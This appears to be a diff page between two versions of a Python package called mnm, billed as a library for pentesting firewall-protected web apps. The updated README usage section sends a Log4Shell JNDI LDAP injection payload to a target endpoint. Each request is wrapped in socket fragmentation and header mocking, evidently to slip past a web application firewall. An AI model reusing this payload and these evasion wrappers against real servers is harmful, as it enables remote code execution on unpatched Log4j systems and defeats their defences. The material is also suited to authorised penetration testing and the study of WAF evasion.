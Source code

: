 ### Comparing `mnm-0.2.0/LICENSE` & `mnm-0.2.1/LICENSE`

 * *Files identical despite different names*

### Comparing `mnm-0.2.0/PKG-INFO` & `mnm-0.2.1/PKG-INFO`

 * *Files 25% similar despite different names*

```diff
@@ -1,10 +1,10 @@
 Metadata-Version: 2.1
 Name: mnm
-Version: 0.2.0
+Version: 0.2.1
 Summary: A simple python library for pentesting firewall protected webapp
 Author-email: ohk990102 <ohk990102@gmail.com>
 Project-URL: Homepage, https://github.com/ohk990102/mnm
 Project-URL: Bug Tracker, https://github.com/ohk990102/mnm/issues
 Classifier: Programming Language :: Python :: 3
 Classifier: License :: OSI Approved :: MIT License
 Classifier: Operating System :: POSIX :: Linux
@@ -20,23 +20,35 @@
 ```bash
 pip install mnm
 ```
 
 ## Usage
 
 ```python
-import mnm
-mnm.enable_socket_fragmentation()
-mnm.enable_header_mocking()
-
+from mnm import *
 import requests
-requests.get('http://example.com')
-
-mnm.disable_socket_fragmentation()
-mnm.disable_header_mocking()
 
-requests.get('http://example.com')
+@mixed(SocketFragmentation(slice=5), HeaderMocking())
+def mixed_options(ip):
+    r = requests.get(f'http://{ip}/log', data={
+        "log": "${jndi:ldap://localhost:1389/Basic/BinaryInj#z}"
+    })
+    print(r.text)
+
+@mixed()
+def mixed_simple(ip):
+    r = requests.get(f'http://{ip}/log', data={
+        "log": "${jndi:ldap://localhost:1389/Basic/BinaryInj#z}"
+    })
+    print(r.text)
+
+def with_pattern(ip):
+    with SocketFragmentation(slice=5), HeaderMocking():
+        r = requests.get(f'http://{ip}/log', data={
+            "log": "${jndi:ldap://localhost:1389/Basic/BinaryInj#z}"
+        })
+        print(r.text)
 ```
 